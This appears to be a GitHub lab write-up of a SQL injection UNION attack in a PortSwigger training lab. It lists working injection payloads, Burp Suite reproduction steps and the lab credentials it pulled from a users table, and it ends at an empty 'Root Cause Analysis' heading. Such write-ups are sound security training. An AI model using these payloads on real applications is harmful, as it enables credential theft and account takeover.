 **SQL Injection UNION Attack Lab Report**
**PortSwigger Web Security Academy**

1. Executive Summary
This report documents a SQL injection vulnerability exploitation using UNION attacks in the PortSwigger lab. The vulnerability in the product category filter allows unauthorized access to database contents through unsanitized user input. With a CVSS rating of 8.5 (High), this vulnerability enables credential theft, leading to account takeover and unauthorized data access. The successful extraction of administrator credentials demonstrates the critical business impact of this vulnerability.

2. Technical Discovery & Vulnerability Details
Initial Discovery Process
The vulnerability was identified in the category parameter of the product filter URL:
<img width="1282" alt="image" src="https://github.com/user-attachments/assets/09eca8a9-98ad-48f3-86a2-7bdbcb9ae0ea" />

The application exhibited SQL error behavior when appending a single quote to the parameter.

Technical Explanation
The vulnerable query structure likely resembles:
sqlSELECT product_name, product_description FROM products WHERE category = 'USER_INPUT'
Testing revealed a two-column result set with string data compatibility, allowing for UNION-based extraction of data from other tables.

SQL Injection Patterns Used
Column Enumeration: Corporate+gifts' UNION SELECT NULL,NULL--
Data Type Testing: Clothing%2c+shoes+and+accessories' UNION SELECT 'abc','def'--
Data Extraction: Clothing%2c+shoes+and+accessories' UNION SELECT username, password FROM users--
<img width="604" alt="image" src="https://github.com/user-attachments/assets/d8c1091b-70eb-4511-bbb4-0565556a35f6" />


3. Exploitation Proof-of-Concept
Step-by-Step Reproduction

Setup: Configure Burp Suite as browser proxy with interception enabled
Column Count: Inject ' UNION SELECT NULL,NULL-- to determine the result set has two columns
Data Type Testing: Inject ' UNION SELECT 'abc','def'-- to confirm string compatibility
Credential Extraction: Inject ' UNION SELECT username, password FROM users-- to extract credentials
Authentication: Log in as administrator using the extracted credentials
<img width="1512" alt="image" src="https://github.com/user-attachments/assets/944acbcd-7ac5-4321-af43-a12409476351" />


Data Extracted

Administrator: administrator:kzh4w8e4iroc6p2zass6
Other accounts:

wiener:kib42bk2zu3ma5zse9u2
carlos:zkhfl75kar8xrro784l0
<img width="593" alt="image" src="https://github.com/user-attachments/assets/13c09268-c476-46ab-8a24-1004d5df5f7f" />
<img width="579" alt="image" src="https://github.com/user-attachments/assets/98537fc4-1c26-4b9f-991f-3a0e57d9dc8c" />



Root Cause Analysis
